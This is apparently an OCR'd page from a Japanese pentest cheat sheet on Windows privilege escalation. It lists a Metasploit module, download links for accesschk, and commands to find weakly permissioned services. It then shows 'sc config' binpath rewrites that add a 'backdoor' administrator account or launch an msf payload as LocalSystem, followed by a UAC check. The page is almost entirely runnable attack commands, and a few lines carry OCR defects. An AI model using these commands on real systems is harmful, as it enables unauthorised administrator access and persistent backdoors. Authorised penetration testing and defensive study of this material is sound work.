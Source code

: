 Meterpreterの使用：

```
> exploit/windows/local/service_permissions
```

wmicとscが利用できない場合は、accesschkを使用できます。Windows XPの場合、accesschkのバージョン5.2が必要です。

```
https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe
https://github.com/ankh2054/windows-pentest/raw/master/Privelege/accesschk-2003-xp.exe
```

```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\
```

次に、Windowsscを使用してサービスにクエリを実行します。

```cmd
sc qc <vulnerable service name>
```

次に、binpathを変更して、独自のコマンドを実行します（サービスの再起動が必要になる可能性があります）。

```bash
sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"
sc stop <vuln-service>
sc start <vuln$ -service>
sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"
sc stop <vuln-service>
sc start <vuln-service>
```

注-depend属性を明示的に使用する必要がある場合があります。

```bash
sc stop <vuln-service>
sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
sc start <vuln-service>
```

#### UAC Bypass

https://book.hacktricks.xyz/windows/authentication-credentials-uac-and-efs#uac

https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/

UACがオンになっているか確認します。

```cmd
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System	
```

```cmd
Consen	tPromptBehaviorAdmin    REG_DWORD    0x5
EnableLUA    REG_DWORD    0x1
PromptOnSecureDesktop    REG_DWORD    0x1
```
